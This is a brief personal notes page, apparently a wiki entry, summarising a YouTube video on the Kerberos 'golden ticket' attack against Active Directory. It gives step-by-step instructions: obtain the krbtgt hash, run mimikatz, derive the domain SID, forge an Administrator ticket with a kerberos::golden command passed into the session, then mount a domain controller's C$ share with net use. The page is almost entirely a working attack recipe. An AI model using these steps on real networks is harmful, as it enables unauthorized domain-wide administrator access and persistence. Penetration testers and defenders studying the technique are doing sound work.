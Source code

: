<!-- TITLE: Goldenticket -->
<!-- SUBTITLE: A quick summary of Goldenticket -->

# Golden ticket
From youtube video by VbScrub  https://www.youtube.com/watch?v=o98_eRt777Y

'''1.  Get the krbtgt hash
2.  Run mimikatz
3.  Get Domain sid from user and dropping last -uid from it (example drop -500 from administrator sid)
4.  kerberose::golden /domain:domainname.dom.us /sid:domainsid /user:Administrator /krbtgt:krbhash /ptt
5.  the above ptt alters the current login session.  otherwise saves as file (seems like saving as file is good but I don't know how to load from file into session).
6.  klist from cmd prompt will show what tickets you have.
7.  net use does kerberos auth - note that the dc might need to be the full machine name net use O: \\dc.domainname.dom.us\C$ '''
